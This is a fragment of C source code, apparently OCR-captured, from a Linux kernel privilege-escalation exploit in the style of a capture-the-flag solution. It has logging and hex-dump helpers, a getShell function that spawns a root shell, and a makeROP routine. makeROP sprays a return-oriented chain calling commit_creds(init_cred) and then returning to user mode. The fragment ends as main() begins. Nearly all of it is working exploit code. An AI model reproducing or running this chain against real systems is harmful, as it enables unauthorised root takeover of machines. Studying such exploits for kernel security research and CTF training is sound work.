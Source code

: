 ```c
            else{
                sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
                if(!isprint(buf[index+j]))
                    output_buffer[58+j] = '.';
                else
                    output_buffer[58+j] = buf[index+j];
            }
        }
        output_buffer[55] = ' ';
        output_buffer[56] = '|';
        output_buffer[57] = ' ';
        printf("%s\n", output_buffer);
        memset(output_buffer+58, '\0', 16);
        index += 16;
    }
}

void error_log(char* error_info){
    printf("\033[31m\033[1m[x] Fatal Error: %s\033[0m\n", error_info);
    exit(1);
}

void info_log(char* info){
    printf("\033[33m\033[1m[*] Info: %s\033[0m\n", info);
}

void success_log(char* info){
    printf("\033[32m\033[1m[+] Success: %s\033[0m\n", info);
}

void getShell(){
    info_log("Ready to get root......");
    if(getuid()){
        error_log("Failed to get root!");
    }
    success_log("Root got!");
    system("/bin/sh");
}

void makeROP(size_t* space){
    int index = 0;
    for(; index < (page_size / 8 - 0x30); index++)
        space[index] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;
    for(; index < (page_size / 8 - 0x10); index++)
        space[index] = ret;
    space[index++] = poprdi_ret;
    space[index++] = init_cred;
    space[index++] = commit_creds;
    space[index++] = swapgs_restore_regs_and_return_to_usermode;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = (size_t)getShell;
    space[index++] = user_cs;
    space[index++] = user_rflags;
    space[index++] = user_sp;
    space[index] = user_ss;

    info_log("Spray content below:");
    print_binary((char*)space, page_size);
}

int main(){
    save_status();
```
